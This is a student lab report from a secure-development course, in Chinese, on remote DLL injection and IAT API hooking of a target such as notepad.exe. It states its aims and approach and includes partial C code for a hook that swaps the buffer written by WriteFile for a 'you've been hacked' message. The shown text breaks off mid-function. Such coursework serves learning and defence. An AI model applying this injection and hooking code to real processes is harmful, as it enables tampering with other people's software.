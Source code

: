 # 软件项目安全开发生命周期期末实验 远程DLL注入+APIhook
### 17 软工 葛启明 201711143018
***
## 实验目的：
1、查文档，研究远程线程方式注入dll的实例代码的实现原理。2、运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行。3、整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。
## 实验思路：
自己编写一个dll,使用APIhook对于目标程序内调用的API进行篡改,根据Taking a Snapshot and Viewing Processes遍历得到目标进程的PID，再使用createRemoteThread将其注入目标程序，实现程序篡改。
## 实验过程：
1. 编写dll代码
``` c
#include <windows.h>
#include <tchar.h>
#include <windows.h>


LONG IATHook(
	__in_opt void* pImageBase,
	__in_opt char* pszImportDllName,
	__in char* pszRoutineName,
	__in void* pFakeRoutine,
	__out HANDLE* phHook
);

LONG UnIATHook(__in HANDLE hHook);

void* GetIATHookOrign(__in HANDLE hHook);

typedef int(__stdcall *LPFN_MessageBoxA)(__in_opt HWND hWnd, __in_opt char* lpText, __in_opt char* lpCaption, __in UINT uType);

typedef int(WINAPI* LPFN_WriteFile)(
	HANDLE       hFile,
	LPCVOID      lpBuffer,
	DWORD        nNumberOfBytesToWrite,
	LPDWORD      lpNumberOfBytesWritten,
	LPOVERLAPPED lpOverlapped
	);

HANDLE g_hHook_WriteFile = NULL;

BOOL WINAPI Fake_WriteFile(
	HANDLE       hFile,
	LPCVOID      lpBuffer,
	DWORD        nNumberOfBytesToWrite,
	LPDWORD      lpNumberOfBytesWritten,
	LPOVERLAPPED lpOverlapped
)
{
	LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);

	return fnOrigin(hFile, "你被黑客入侵啦", nNumberOfBytesToWrite, lpNumberOfBytesWritten, lpOverlapped);
}

void WINAPI hookWriteFile()
{
	do
```
